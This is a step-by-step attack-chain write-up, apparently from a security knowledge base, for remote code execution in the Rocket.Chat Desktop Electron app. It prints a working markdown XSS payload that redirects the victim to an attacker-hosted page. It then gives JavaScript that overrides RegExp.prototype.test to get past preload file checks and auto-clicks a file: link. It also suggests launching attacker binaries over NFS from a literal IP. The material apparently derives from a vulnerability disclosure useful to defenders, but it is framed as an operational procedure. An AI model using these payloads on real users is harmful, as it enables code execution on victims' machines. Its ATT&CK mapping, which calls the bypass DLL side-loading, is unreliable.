

# Remote Code Execution in Rocket.Chat Desktop via Markdown XSS and Electron RegExp Bypass

Multi-stage attack chain demonstrating exploitation of Rocket.Chat Desktop's Markdown parser for XSS, leading to redirection, security bypass, and remote code execution by opening arbitrary local applications or files.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 5 |
| Execution Time | ~1 minute |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- None (relies on browser developer tools or simple HTML hosting for attacker page)

### Target Environment

- Rocket.Chat Desktop application (Electron-based)
- Platforms: macOS or Windows
- Access to a chat channel in the application
- Attacker controls a web server to host the redirect page (e.g., https://maustin.net/hax/rocket/hack.html)

### Initial Access Requirements

- Ability to send messages in a Rocket.Chat channel (e.g., authenticated user or public channel)
- Victim interaction: Mouse hover over the crafted link
- No prior credentials needed beyond chat access

## Detailed Attack Procedures

### Step 1: Create Test Channel
procedure: [[procedures/Create-Test-Channel-in-Rocket-Chat]]

**Objective**: Set up an isolated environment to send and test the malicious payload without disrupting production channels.

**Instructions**: Launch the Rocket.Chat Desktop application and create a new private or public channel for testing. This ensures the attack can be observed in a controlled setting.

**Expected Output**: A new channel appears in the channel list, ready for message sending.

**Success Indicators**:
- Channel created successfully
- No errors in application logs

### Step 2: Send Malicious Markdown Snippet
procedure: [[procedures/Send-Malicious-Markdown-for-XSS]]

**Objective**: Inject a crafted Markdown payload that tricks the parser into rendering an HTML link with injected JavaScript attributes, enabling XSS on interaction.

**Instructions**: In the test channel, compose and send the following Markdown payload:

```markdown
[ hax ](http://hax//onmouseover=location='https://maustin.net/hax/rocket/hack.html';"`hax`zzz)
```

This payload combines link syntax with an inline code block to break out of attributes, resulting in rendered HTML like `<a href="http://hax//onmouseover=location='https://maustin.net/hax/rocket/hack.html';"`hax`zzz">hax</a>`, allowing JS execution on hover.

**Expected Output**: The message renders as a clickable link in the chat interface.

**Success Indicators**:
- Link appears without parsing errors
- No immediate JS alerts or blocks

### Step 3: Trigger XSS via Mouse Hover
procedure: [[procedures/Trigger-XSS-Redirect-via-Hover]]

**Objective**: Interact with the rendered link to execute the injected onmouseover event, redirecting the victim to the attacker-controlled page.

**Instructions**: Position the mouse cursor over the rendered "hax" link in the chat message. The onmouseover handler will automatically execute, redirecting the Electron browser context to https://maustin.net/hax/rocket/hack.html.

**Expected Output**: Browser navigates to the attacker page seamlessly.

**Success Indicators**:
- Page load completes without interruptions
- Attacker page JavaScript begins execution

### Step 4: Overload RegExp Prototype on Attacker Page
procedure: [[procedures/Overload-RegExp-Prototype-to-Bypass-File-Checks]]

**Objective**: On the loaded attacker page, manipulate the RegExp.prototype.test method to return false for specific security checks in Electron's preload script, allowing subsequent file URL handling.

**Instructions**: The attacker page contains JavaScript that uses a Proxy to overload RegExp.prototype.test. Specifically, it intercepts calls like `/^file:///Applications/.*$/.test(url)` and forces a false return for the Calculator.app check. Implement a 3-second delay before proceeding:

```javascript
const originalTest = RegExp.prototype.test;
RegExp.prototype.test = new Proxy(originalTest, {
  apply(target, thisArg, args) {
    if (args[0].startsWith('file:///Applications/Calculator.app')) {
      return false; // Bypass the check
    }
    return target.apply(thisArg, args);
  }
});

// After 3 seconds, create and click the link
setTimeout(() => {
  const link = document.createElement('a');
  link.href = 'file:///Applications/Calculator.app';
  link.click();
}, 3000);
```

**Expected Output**: The proxy activates, and the delayed link click occurs without triggering security blocks.

**Success Indicators**:
- Console logs confirm proxy interception
- No file check failures in preload.js

### Step 5: Execute Arbitrary File Open for RCE
procedure: [[procedures/Execute-Arbitrary-File-Open-for-RCE]]

**Objective**: Leverage the bypassed checks to call shell.openExternal with a controlled file URL, opening arbitrary local applications or files on the victim's machine.

**Instructions**: With the RegExp bypass in place, the created `<a>` element's click event triggers Electron's window.onload handler in preload.js, which calls shell.openExternal('file:///Applications/Calculator.app'). This opens the Calculator app on macOS. For broader RCE, use paths like 'file:///net/192.241.239.91/var/nfs/general/hack2.app' to execute attacker-controlled binaries via NFS/SMB on Windows.

**Expected Output**: The specified application or file launches on the victim's desktop.

**Success Indicators**:
- Application opens (e.g., Calculator launches)
- No sandbox or permission errors

## Attack Chain Summary

### Key Achievements

1. Achieved XSS via Markdown parser trickery without direct script injection.
2. Bypassed Electron's file URL restrictions using prototype pollution on RegExp.test.
3. Demonstrated RCE by opening local apps/files, applicable to macOS and Windows.

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]] JavaScript (XSS execution in Electron context)
- [[DLL Search Order Hijacking]] Hijack Execution Flow: DLL Side-Loading (adapted to prototype overload for bypass)

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access (via drive-by XSS in chat app)
- [[Execution]] Execution (arbitrary file execution via shell.openExternal)

---

*Last updated: 2023-10-01T00:00:00Z*
